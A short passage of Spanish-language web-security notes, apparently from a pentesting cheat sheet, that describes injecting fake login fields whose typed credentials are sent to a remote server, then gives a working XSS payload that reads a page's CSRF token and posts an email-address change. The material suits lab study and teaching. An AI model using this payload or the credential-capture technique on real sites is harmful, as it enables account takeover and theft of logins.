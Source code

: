 agregamos 2 inputs uno de usuario y otro de contraseña, cuando la contraseña se empiece a escribir mandara el los valores a un servidor remoto. Esto puede ser mas elaborado esteticamente.

**Exploiting XSS to perform CSRF**



```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

[https://www.yuninfosec.com/exploiting-cross-site-scripting-vulnerabilities-with-burp-suite/](https://www.yuninfosec.com/exploiting-cross-site-scripting-vulnerabilities-with-burp-suite/)